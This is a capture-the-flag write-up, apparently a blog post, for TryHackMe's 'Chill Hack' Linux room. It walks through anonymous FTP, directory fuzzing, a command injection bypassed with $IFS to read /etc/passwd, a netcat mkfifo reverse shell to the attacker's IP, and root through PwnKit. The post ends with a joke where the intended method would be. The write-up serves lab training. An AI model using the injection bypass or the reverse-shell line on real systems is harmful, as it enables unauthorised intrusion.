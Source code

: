### Chill hack
### Difficulty = easy
### Os = linux
### [LINK](https://tryhackme.com/room/chillhack)

Hi guys ,
<br> let's root another fun box today.
<br> let's get started.

<h2>Nmap scan</h2>

![nmap](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a3a34c1a-56e5-4c8b-b7ac-b05149c8fa2b)

As you can see we have 3 open ports which port 21(FTP) Allows anonymous login.
<br> so let's enumerate the port further by connecting to the ftp server using "anonymous" as username and hitting enter to get logged in. Then download the file on the server to your local machine

![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49303fe2-cdba-459b-b3d2-4a7476fb7ecc)
<br> so, let's check the content of the downloaded file

![note](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e36502ad-edc5-4183-9125-e2347c83f7ee)

the file contains hint to the box.

<br> let's proceed further by fuzzing for directories using ffuf
~~~
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.120/FUZZ
~~~

![fuzz](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6bce9a6-9f52-4e85-975a-9f959b1a6b73)

got the directory */secret*
<br> visiting the directory we can tell that the box is about command injection

![http_command_inj_page](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6568236-8929-4d80-ae25-fff0fd4ab7ec)
<br> so, you can confirm it by executing the **id** command

proceeding further we noticed that our commands ain't working due to some kinda filters
 
 ![filter](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01e4e271-345e-4135-b128-838ec0d753d5)

i found out that spaces get filtered and thereby triggering the alert.

<br> so, let's bypass the filter using the "internal field separator" $IFS
```
cat$IFS/etc/passwd should work
```

![filer_bypass](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8ab2e700-3c52-440b-9e9a-aa732477c14c)

dope! it has been bypassed. which means we have to replace the spaces with $IFS 

<br> let's pop our sweet reverse shell by starting netcat listener and executing this commands.
```
rm$IFS/tmp/f;mkfifo$IFS/tmp/f;cat$IFS/tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f
```
![rev-shell](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/760a62df-4925-44ae-b577-07654cb8fa56)

<br> cool we have a shell xD
<br> so, stabilize the shell.

<h2>Privilege escalation</h2>
Enumeration shows that the machine is vulnerable to pwnkit
using
```uname -a```
to confirm
so, let's move the  pwnkit exploit to the box  and run to gain root ![link](https://github.com/ly4k/PwnKit)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c570d7a-70dd-4fba-893b-2b5e6ecc9b9e)
we able to cat the user and root flag

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/527f7f6d-a1fe-4aa2-95e5-c4ef69df87d0)

that's the unintended way to gain root




so let's go the intended way:

bankai senbonzakura kagyeoshi lol :)





